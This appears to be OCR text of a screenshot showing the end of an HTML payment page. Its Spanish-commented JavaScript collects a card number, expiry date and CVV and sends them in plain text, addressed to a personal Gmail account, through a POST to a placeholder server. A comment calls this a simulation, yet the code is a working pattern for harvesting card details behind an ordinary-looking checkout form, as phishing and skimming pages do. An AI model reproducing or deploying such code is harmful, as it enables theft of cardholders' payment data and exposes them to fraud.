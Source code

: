            // Obtener los datos del formulario
            const cardNumber = document.getElementById('card-number').value;
            const expiryDate = document.getElementById('expiry-date').value;
            const cvv = document.getElementById('cvv').value;

            // Validar si hay errores
            const errorMessage = document.getElementById('expiry-error').textContent;

            if (errorMessage) {
                alert('Corrija los errores antes de enviar el formulario.');
                return;
            }

            // Configurar el correo electrónico
            const emailAddress = 'ianjv3615@gmail.com';
            const subject = 'Nueva Transacción de Pago';
            const message = `Número de Tarjeta: ${cardNumber}\nFecha de Caducidad: ${expiryDate}\nCVV: ${cvv}`;

            // Usar fetch para enviar los datos al servidor (esto es solo una simulación)
            fetch('https://your-server.com/send-email', { // Reemplaza con tu servidor real
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify({
                    email: emailAddress,
                    subject: subject,
                    message: message,
                }),
            })
            .then(response => response.json())
            .then(data => {
                alert('Datos enviados correctamente.');
            })
            .catch((error) => {
                console.error('Error:', error);
                alert('Ocurrió un error al enviar los datos.');
            });
        });
    </script>
</body>
</html>
